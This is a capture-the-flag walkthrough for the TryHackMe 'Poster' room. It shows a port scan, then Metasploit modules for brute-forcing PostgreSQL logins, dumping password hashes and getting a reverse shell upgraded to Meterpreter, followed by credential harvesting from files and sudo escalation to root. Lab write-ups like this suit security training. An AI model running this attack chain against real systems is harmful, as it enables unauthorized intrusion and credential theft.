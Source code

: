 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Poster
# DESCRIPTION       . The sys admin set up a rdbms in a safe way.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/poster
```

```
sudo nmap -sSVC -T5 -p- 10.10.200.186 -oN poster
```

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 71ed48af299e30c1b61dffb024cc6dcb (RSA)
|   256 eb3aa34e6f1000abeffcc52b0edb4057 (ECDSA)
|_  256 3e4142353805d392eb4939c6e3ee78de (ED25519)
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Poster CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
5432/tcp open  postgresql PostgreSQL DB 9.5.8 - 9.5.10 or 9.5.17 - 9.5.23
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-07-29T00:54:25
|_Not valid after:  2030-07-27T00:54:25
|_ssl-date: TLS randomness does not represent time
```

#### Port 5432

- This CTF is a bit guided and points us to use metasploit.

- I found the `auxiliary/scanner/postgres/postgres_login` module helpful in bruteforcing the credentials. 

```
[-] 10.10.200.186:5432 - LOGIN FAILED: postgres:@template1 (Incorrect: Invalid username or password)
[-] 10.10.200.186:5432 - LOGIN FAILED: postgres:tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.200.186:5432 - LOGIN FAILED: postgres:postgres@template1 (Incorrect: Invalid username or password)
[+] 10.10.200.186:5432 - Login Successful: postgres:{REDACTED}
```

- `auxiliary/admin/postgres/postgres_sql` can be used with the credentials found above to list postgre's version.

- `auxiliary/scanner/postgres/postgres_hashdump` can be used to dump the user's password hashes.

```
   Name      Current Setting  
   ----      --------------- 
   DATABASE  template1      
   PASSWORD  {REDACTED}         
   RHOSTS    10.10.200.186    
   RPORT     5432            
   THREADS   1                
   USERNAME  postgres         
```

```
 Username   Hash
 --------   ----
 darkstart  md58842{REDACTED}a27d
 poster     md578fb{REDACTED}4cce0a
 postgres   md532e1{REDACTED}5127
 sistemas   md5f7db{REDACTED}ee2b
 ti         md57af9{REDACTED}579
 tryhackme  md503aa{REDACTED}efddc
```

- `exploit/multi/postgres/postgres_copy_from_program_cmd_exec` is the module used to get a reverse shell on the server.

```
   Name               Current Setting  
   ----               ---------------  
   DATABASE           template1       
   DUMP_TABLE_OUTPUT  false            
   PASSWORD           {REDACTED}         
   RHOSTS             10.10.200.186    
   RPORT              5432             
   TABLENAME          hp0lDpyb        
   USERNAME           postgres
```

- Additionally, we can take one extra step and use `post/multi/manage/shell_to_meterpreter` to upgrade our shell to meterpreter.

- First, background the shell gained from the module above --- CTRL + Z

- Then, run the `shell_to_meterpreter` module with the following options

```
   Name     Current Setting  
   ----     ---------------  
   HANDLER  true             
   LHOST    {REDACTED}
   LPORT    4433            
   SESSION  1             
```

- Finally, use `sessions -i [session_ID]` to interact with the new (meterpreter) session.

- In `/home/dark/credentials.txt` we can find dark's credentials.

```
dark:qw{REDACTEDe
```

```
Sorry, user dark may not run sudo on ubuntu.
```

#### Privilege Escalation : dark -> alison

```
find / -type f -perm 0777 2>dev/null
```

- The command above listed 2 files I have full (rwx) permissions to, the credentials file I already knew about and `/var/www/html/config.php` file

```
<?php 
	
	$dbhost = "127.0.0.1";
	$dbuname = "alison";
	$dbpass = "{REDACTED}";
	$dbname = "mysudopassword";
?>
```

- After switching user as `alison`, we can grab the user flag from `/home/alison/user.txt`.

- I ran `sudo -l` as `alison` and I had a really nice surprise :) 

```
User alison may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

- The last flag is in `/root/root.txt` file.